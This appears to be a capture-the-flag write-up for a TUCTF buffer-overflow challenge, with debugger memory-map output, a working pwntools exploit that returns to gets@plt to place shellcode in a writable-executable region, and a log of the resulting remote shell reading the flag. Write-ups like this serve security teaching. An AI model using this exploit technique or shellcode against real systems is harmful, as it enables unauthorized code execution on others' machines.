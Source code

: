 ### Solved by superkojiman

Another vanilla buffer overflow. This time NX isn't enabled, but ASLR is. I could write and execute code on the stack, but then I'd need to leak a stack address. Too much work, when it's easier to just write directly into 0x0804a000 0x0804b000 which was also read/write/executable!

```
gdb-peda$ vmmap
Start      End        Perm      Name
0x08048000 0x08049000 r-xp      /root/tu/esp-good-jmp/23e4f31a5a8801a554e1066e26eb34745786f4c4
0x08049000 0x0804a000 r-xp      /root/tu/esp-good-jmp/23e4f31a5a8801a554e1066e26eb34745786f4c4
0x0804a000 0x0804b000 rwxp      /root/tu/esp-good-jmp/23e4f31a5a8801a554e1066e26eb34745786f4c4
```

Solution: return to gets@plt, write shellcode to 0x0804a000, and then return to 0x0804a000 to execute shellcode. 


```python
#!/usr/bin/env python
from pwn import *

r = remote("130.211.202.98" ,7575)

buf = ""
buf += "A"*44

buf += p32(0x80483d0)       # gets@plt
buf += p32(0x804a000)       # ret here after gets()
buf += p32(0x804a000)       # rwx address

# asks us for name
print r.recv()
r.sendline(buf)

# asks us for number
print r.recv()
r.sendline(asm(shellcraft.linux.sh()))

r.interactive()
```

Flag plundering time:

```
# ./sploit.py
[+] Opening connection to 130.211.202.98 on port 7575: Done
What's your name?

What's your favorite number?

[*] Switching to interactive mode
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAЃ\x0, 0 is an even number!
$ ls
easy
flag.txt
$ cat flag.txt
TUCTF{th0se_were_s0me_ESPecially_good_JMPs}
```

